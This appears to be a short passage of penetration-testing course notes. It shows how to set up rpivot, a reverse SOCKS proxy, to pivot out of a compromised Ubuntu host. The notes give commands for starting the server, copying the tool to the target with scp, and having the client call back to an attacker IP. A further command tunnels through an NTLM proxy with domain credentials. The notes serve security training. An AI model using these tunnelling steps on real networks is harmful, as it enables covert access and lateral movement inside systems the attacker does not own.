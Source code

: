 [Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command.

```bash
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

On the pivot host we run the client
```bash
 python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```


#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
